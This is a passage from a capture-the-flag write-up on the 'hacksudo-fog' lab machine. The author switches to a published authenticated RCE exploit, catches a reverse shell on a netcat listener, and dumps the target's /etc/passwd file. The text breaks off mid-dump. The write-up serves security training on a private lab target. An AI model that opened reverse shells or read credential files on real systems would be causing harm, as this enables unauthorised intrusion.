 After editing the variables to fit the target installation and reviewing the script
it seems to fail. So I opted to use the method of authenticated RCE used in version
2.2.15 with the path `php/webapps/49345.txt`:

#### Getting a reverse shell

After setting up the listener: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/hacksudo-fog]
└─$ nc -lvp 6666               
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 192.168.56.213.
Ncat: Connection from 192.168.56.213:46502.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

#### Local enumeration on the target

Getting the second flag:

{% highlight terminal %}
you successfully crack web and got shell access!!!
                                _         _       _   _             
  ___ ___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  
 / __/ _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \ 
| (_| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | |
 \___\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|
step 2 done.
     _               ____  
 ___| |_ ___ _ __   |___ \ 
/ __| __/ _ \ '_ \    __) |
\__ \ ||  __/ |_) |  / __/ 
|___/\__\___| .__/  |_____|
            |_|            

{% endhighlight %}

etc/passwd:
{% highlight terminal %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin